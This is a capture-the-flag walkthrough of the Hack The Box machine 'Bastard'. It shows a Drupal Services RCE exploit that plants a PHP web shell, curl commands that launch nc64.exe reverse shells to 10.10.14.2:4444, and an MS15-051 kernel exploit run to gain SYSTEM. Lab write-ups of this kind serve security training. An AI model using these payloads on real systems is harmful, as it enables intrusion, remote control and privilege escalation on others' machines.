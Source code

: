 # Bastard

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.254
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 04:29 EDT
Nmap scan report for 10.129.84.254
Host is up (0.0072s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

### Drupal

Port 80 was a Drupal Instance:

<figure><img src="../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

This box is really old, the intended exploit is to use Drupal Module RCE. Here's the PoC:

{% embed url="https://www.exploit-db.com/exploits/41564" %}

We need to edit the top of the script to have the correct URL and endpoints accordingly:

```php
$url = 'http://10.129.84.254';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Then, we can run the exploit:

```
$ php exploit.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.129.84.254/test.php

$ curl -G --data-urlencode 'cmd=whoami' 'http://10.129.84.254/test.php'
nt authority\iusr
```

We now have RCE, and getting a reverse shell can be done through `nc.exe`.&#x20;

```
$ curl -G --data-urlencode 'cmd=\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444' 'http://10.129.84.254/test.php'
```

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation --> Kernel

This is a really old machine, so tehre's bound to be some Windows Kernel exploit that we can use.&#x20;

```
C:\Users\dimitris>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          30/4/2023, 11:27:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.559 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.578 MB
Virtual Memory: In Use:    517 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.84.254
```

`SeImpersonatePrivilege` is also enabled, making this an easy exploit. For this particular case, we can use MS15-051.&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip" %}

When run, we can see that it works:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "whoami" 
\\10.10.14.2\share\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2268 created.
==============================
NT AUTHORITY\SYSTEM
```

We can run another reverse shell easily:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2400 created.
```

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

Rooted!
